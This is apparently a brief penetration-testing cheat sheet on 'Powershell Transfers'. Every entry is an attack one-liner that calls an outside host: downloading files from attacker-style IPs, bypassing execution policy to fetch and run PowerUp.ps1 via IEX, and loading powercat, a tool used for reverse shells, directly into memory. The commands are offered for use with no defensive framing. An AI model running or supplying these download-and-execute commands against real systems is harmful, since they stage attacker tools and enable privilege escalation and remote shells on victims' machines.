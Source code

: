 ### Powershell Transfers

From outside Powershell

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http:/ /10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.xxx:8000/powerup.ps1') ; Invoke-AllChecks"
```

Inside Powershell

```
iex (New-Object System.Net.Webclient).DownloadString('https://raw. githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```